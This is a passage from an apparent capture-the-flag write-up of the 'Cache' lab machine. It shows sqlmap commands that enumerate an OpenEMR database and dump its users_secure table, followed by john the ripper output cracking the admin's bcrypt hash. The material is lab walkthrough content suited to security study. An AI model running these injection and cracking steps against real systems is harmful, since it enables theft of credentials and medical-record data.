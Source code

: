 Then copy the GET request to a text file so we can run sqlmap on it.

```bash
sqlmap -r request.txt --dbs
```

This returns:

```bash
available databases [2]:
[*] information_schema
[*] openemr
```

Let's have a look at the tables in the `openemr` database.

```bash
sqlmap -r request.txt -D openemr --tables
```

This shows us lots of tables, the most interesting one being: `users_secure`

We can dump the table to see any interesting information:

```bash
sqlmap -r request.txt -D openemr -T users_secure --dump
```

And this returns:

![dump](/assets/img/posts/cache/dump.png)

## Hash Cracking

We can crack this password hash using john the ripper. Just put the password hash into a file and run john on it (ignore the salt).

```bash
finlay@kali:~/htb/cache/new_resources$ sudo john hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates buffered for the current salt, minimum 12 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 12 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 11 candidates buffered for the current salt, minimum 12 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxx           (openemr_admin)
1g 0:00:00:02 DONE 2/3 0.4273g/s 5635p/s 5635c/s 5635C/s water..88888888
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
